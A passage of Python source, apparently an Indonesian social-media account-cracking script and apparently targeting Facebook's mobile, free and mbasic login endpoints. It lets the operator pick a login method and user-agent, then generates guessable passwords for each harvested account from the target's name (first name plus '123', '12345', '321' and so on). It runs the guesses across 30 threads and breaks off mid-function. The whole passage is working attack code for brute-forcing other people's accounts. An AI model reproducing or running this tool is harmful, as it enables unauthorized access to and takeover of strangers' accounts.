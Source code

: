 	print(f'{xxx}─────────────────────────────')
	print('└── 1. mobile')
	print('└── 2. free')
	print('└── 3. mbasic')
	metod = input(f'{xxx}└── : ')
	if metod in ['1','01']:
		baz.append('metod1')
	elif metod in ['2','02']:
		baz.append('metod2')
	elif metod in ['3','03']:
		baz.append('metod3')
	else:
		baz.append('metod1')
		
	print(f'{xxx}─────────────────────────────')
	print('└── tambahkan ua y atau t')
	uatambah = input(f'└── : ')
	if uatambah in ['y','Ya','ya','Y']:
		ualuh.append('ya')
		print(f'{xxx}─────────────────────────────')
		bzer = input(f'└── ua : ')
		ualu.append(bzer)
	else:
		ualuh.append('tidak')
	passwrd()

###----------[ BAGIAN PASSWORD ]----------###
def passwrd():
	global prog,des
	print(f'{xxx}─────────────────────────────')
	prog = Progress(SpinnerColumn('clock'),TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'))
	des = prog.add_task('',total=len(id))
	with prog:
		with tred(max_workers=30) as gas_krek:
			for aldous in id2:
				idf,nmf = aldous.split('|')[0],aldous.split('|')[1].lower()
				frs = nmf.split(' ')[0]
				pwv = []
				pwt = []
				if len(nmf)<6:
					if len(frs)<3:
						pass
					else:
						pwv.append(frs+'321')
						pwv.append(frs+'123')
						pwv.append(frs+'1234')
						pwv.append(frs+'12345')
						pwv.append(frs+'123456')
				else:
					if len(frs)<3:
						pwv.append(nmf)
					else:
						pwv.append(nmf)
						pwv.append(frs+'321')
						pwv.append(frs+'123')
						pwv.append(frs+'1234')
						pwv.append(frs+'12345')
						pwv.append(frs+'123456')
				if '><v><' in pwt:
					for xpwn in pwn:
						pwv.append(xpwn)
				else:pass
				if 'metod1' in baz: